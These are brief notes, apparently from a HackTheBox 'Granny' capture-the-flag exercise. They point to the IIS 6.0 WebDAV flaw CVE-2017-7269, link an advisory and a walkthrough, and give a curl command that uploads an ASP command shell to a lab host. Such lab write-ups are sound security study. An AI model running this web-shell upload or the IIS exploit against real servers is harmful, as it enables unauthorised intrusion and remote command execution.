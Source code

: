 google search: IIS 6 exploit, found 

https://www.trendmicro.com/en_us/research/17/c/iis-6-0-vulnerability-leads-code-execution.html

same exploit to IIS 6.0 CVE-2017-7269

reference [sinfulz granny walkthrough](https://medium.com/@sinfulz/hackthebox-granny-walkthrough-oscp-friendly-cf800b42ce7a)

upload asp shell.

```bash
 curl http://10.129.118.142 --upload-file cmdasp.txt

```
